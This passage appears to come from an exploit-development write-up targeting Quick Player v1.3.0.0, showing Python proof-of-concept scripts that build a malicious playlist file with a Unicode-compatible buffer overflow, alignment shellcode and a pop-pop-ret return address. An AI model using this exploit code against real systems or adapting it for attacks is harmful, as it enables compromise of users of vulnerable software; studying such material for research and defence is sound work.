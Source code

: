 With the new additions to the alignment, these should add 100 to EAX:

```term
alignment = "\x54\x71"        # push esp, padding
alignment += "\x58\x71"       # push eax, padding
alignment += "\x05\x20\x22"   # add eax, 0x22002000
alignment += "\x71"           # Padding
alignment += "\x2D\x19\x22"   # sub eax, 0x22001900
alignment += "\x71"           # Padding
alignment += "\x50\x71"       # push eax, padding
alignment += "\xC3" 

ret = "\x71\x41" + "\xF2\x41" # 0x004100f2 : pop esi # pop ebx # ret 0x04 | startnull,unicode {PAGE_EXECUTE_READWRITE} [Quick Player.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.3.0.0 (C:\Program Files\Quick Player\Quick Player.exe)

buffer = "A" * 536 + ret + "\x41\x71\x41\x71" + alignment + "C" * 200

f = open ("poc.m3l", "w")

f.write(buffer)

f.close()
```

EAX points to C's:

![](/assets/img/Findings6/15.png)

Through some testing, i found out that the padding required to reach EAX was 73 bytes:

```term
alignment = "\x54\x71"        # push esp, padding
alignment += "\x58\x71"       # push eax, padding
alignment += "\x05\x20\x22"   # add eax, 0x22002000
alignment += "\x71"           # Padding
alignment += "\x2D\x19\x22"   # sub eax, 0x22001900
alignment += "\x71"           # Padding
alignment += "\x50\x71"       # push eax, padding
alignment += "\xC3" 

ret = "\x71\x41" + "\xF2\x41" # 0x004100f2 : pop esi # pop ebx # ret 0x04 | startnull,unicode {PAGE_EXECUTE_READWRITE} [Quick Player.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.3.0.0 (C:\Program Files\Quick Player\Quick Player.exe)

buffer = "A" * 536 + ret + "\x41\x71\x41\x71" + alignment + "A" * 73 + "B" * 20 + "C" * 20

f = open ("poc.m3l", "w")

f.write(buffer)

f.close()
```
